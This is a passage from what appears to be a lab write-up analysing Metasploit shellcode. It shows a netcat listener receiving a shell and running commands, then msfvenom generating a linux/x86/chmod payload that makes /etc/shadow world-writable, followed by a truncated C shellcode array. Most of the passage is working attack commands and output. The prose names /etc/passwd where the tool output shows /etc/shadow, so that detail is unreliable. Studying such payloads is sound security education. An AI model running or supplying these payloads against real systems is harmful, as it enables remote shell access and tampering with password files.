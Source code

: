 ### Let’s test it all :###

On the first terminal, we launch the communication and after the connection, we have access to one shell.

```c
nc -l -p 4444 -v
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [10.0.2.15] port 4444 [tcp/*] accepted (family 2, sport 37928)
id
uid=1000(xophidia) gid=1000(xophidia) groups=1000(xophidia),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
pwd
/home/xophidia/Documents
```

Shellcode launch:
```c
./test_shellcode 
```

## Third payload, : linux/x86/chmod##

We proceed for the third payload the same way than for the two first ones.

The first step consists in generating the shellcode and observing the way it is running:

By default it will modify the file /etc/passwd with the rights 0666

```c
xophidia@xophidia-VirtualBox:~/Documents/Shellcode/as5$ msfvenom -p linux/x86/chmod --payload-options
Options for payload/linux/x86/chmod:


       Name: Linux Chmod
     Module: payload/linux/x86/chmod
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 36
       Rank: Normal

Provided by:
    kris katterjohn <katterjohn@gmail.com>

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FILE  /etc/shadow      yes       Filename to chmod
MODE  0666             yes       File mode (octal)

Description:
  Runs chmod on specified file with specified mode


msfvenom -p linux/x86/chmod -a x86 -f c

No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 36 bytes
Final size of c file: 177 bytes

unsigned char buf[] = 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
"\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
```